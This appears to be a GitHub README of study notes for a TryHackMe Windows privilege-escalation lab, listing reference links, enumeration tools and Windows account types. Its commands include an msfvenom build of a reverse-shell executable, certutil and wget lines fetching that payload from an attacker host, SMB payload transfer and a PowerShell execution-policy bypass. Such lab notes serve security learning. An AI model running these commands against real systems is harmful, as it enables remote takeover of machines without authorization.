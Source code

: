 # Windows_PrivEsc_Tryhackme
Windows Privilege Escalation Techniques 

# Windows Privilege Escalation

- Tryhackroom:  https://tryhackme.com/room/windows10privesc
- Some resources:
    - https://github.com/Tib3rius/Linux-PrivEsc-Tools
    - https://www.absolomb.com/2018-01-26-Windows-Privilege-Escalation-Guide/
	- https://sushant747.gitbooks.io/total-oscp-guide/content/privilege_escalation_windows.html
	- https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Windows%20-%20Privilege%20Escalation.md
	- https://www.fuzzysecurity.com/tutorials/16.html
- RDP connection to the victim windows 10 machine.
    * `rdesktop -u <user_name> -p <password> <IP_addr>`
- Creatation of reverse shell.
    * `msfvenom -p windows/x64/shell_reverse_tcp LHOST=10.17.11.201 LPORT=4444 --platform windows -f exe -o reverse_4444.exe`
- Transfer exe file from attacker machine to victim after initial connection.
    * `python3 -m http.server 80` at the attacker machine file directory.
    * `certutil -urlcache -f http://10.17.11.201/reverse_4444.exe shell.exe` to download the exe file at the victim machine through reverse shell.
    * or `wget http://ATTACKER_IP:8000/revshell.exe -O revshell.exe`
- Transfer exe file through SMBv1 Protocole.
    - On Windows to start the SMBv1 service:
        * `Enable-WindowsOptionalFeature -Online -FeatureName "SMB1Protocol-Client" -All` In PowerShell with administrator privileges.
    - On Kali, in the same directory as reverse.exe:
        * `sudo python3 /usr/share/doc/python3-impacket/examples/smbserver.py kali .`
    - On Windows (update the IP address with your Kali IP):
        * `copy \\10.10.10.10\kali\reverse.exe C:\PrivEsc\reverse.exe` from windows to linux(Attacker_machine).
	* `copy C:\PrivEsc\reverse.exe \\10.17.11.201\kali\reverse.exe` from linux to windows
    - To transfer file from Linux to windows through smb .
        * `smbclient -U <username> "//<windows_IP>/Tools"

### Windows Privilege Escalation enumeration Tools:
    - `winPEASany.exe`
    - `Seatbelt.exe`
    - `PowerUp.ps1`
        * It will first need the powershell session. To change cmd session to powershell sessions use this command.
            - `powershell -exec bypass`
        * To run the PowerUp.ps1:
            - `. .\PowerUp.ps1`
            - `Invoke-AllChecks`
    - `SharpUp.exe`

### Types of accounts in windows machines:
- Administrator (local): This is the user with the most privileges.
- Standard (local): These users can access the computer but can only perform limited tasks. Typically these users can not make permanent or essential changes to the system. 
- Guest: This account gives access to the system but is not defined as a user. 
- Standard (domain): Active Directory allows organizations to manage user accounts. A standard domain account may have local administrator privileges. 
- Administrator (domain): Could be considered as the most privileged user. It can edit, create, and delete other users throughout the organization's domain. 
- **SYSTEM** : This not particularly an account but windows services utilize this account to do its task, but even this account has higher privileges
